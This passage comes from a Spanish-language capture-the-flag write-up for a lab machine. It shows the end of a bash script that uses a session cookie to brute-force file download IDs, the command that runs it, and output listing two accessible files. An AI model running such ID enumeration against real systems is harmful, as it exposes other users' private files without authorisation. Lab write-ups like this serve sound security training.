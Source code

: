 ```bash
    if [ $((id % 50)) -eq 0 ]; then
        echo "Procesados: $id/1000 - Válidos: $valid_ids"
    fi
done

echo "[+] Escaneo completado."
echo "[+] Total de archivos encontrados: $valid_ids"

if [ $valid_ids -gt 0 ]; then
    echo ""
    echo "[+] Resumen:"
    cat results.txt
else
    echo "[-] No se encontraron archivos válidos"
    rm -f results.txt
fi
```

Poniendo nuestra `Cookie` de sesion en el script, lo ejecutaremos de esta forma:

```shell
bash fuzzID.sh
```

Info:

```
[+] Probando IDs del 1 al 1000...
[+] Buscando archivos existentes...
[+] Guardando resultados en: results.txt
Procesados: 50/1000 - Válidos: 0
[+] ID VÁLIDO: 54 - Archivo:  - Tamaño: 6379 bytes
Procesados: 100/1000 - Válidos: 1
[+] ID VÁLIDO: 150 - Archivo:  - Tamaño: 6367 bytes
Procesados: 150/1000 - Válidos: 2
Procesados: 200/1000 - Válidos: 2
Procesados: 250/1000 - Válidos: 2
Procesados: 300/1000 - Válidos: 2
Procesados: 350/1000 - Válidos: 2
Procesados: 400/1000 - Válidos: 2
Procesados: 450/1000 - Válidos: 2
Procesados: 500/1000 - Válidos: 2
Procesados: 550/1000 - Válidos: 2
Procesados: 600/1000 - Válidos: 2
Procesados: 650/1000 - Válidos: 2
Procesados: 700/1000 - Válidos: 2
Procesados: 750/1000 - Válidos: 2
Procesados: 800/1000 - Válidos: 2
Procesados: 850/1000 - Válidos: 2
Procesados: 900/1000 - Válidos: 2
Procesados: 950/1000 - Válidos: 2
Procesados: 1000/1000 - Válidos: 2
[+] Escaneo completado.
[+] Total de archivos encontrados: 2

[+] Resumen:
ID: 54 - Archivo:  - URL: http://file.era.htb/download.php?id=54
ID: 150 - Archivo:  - URL: http://file.era.htb/download.php?id=150
```
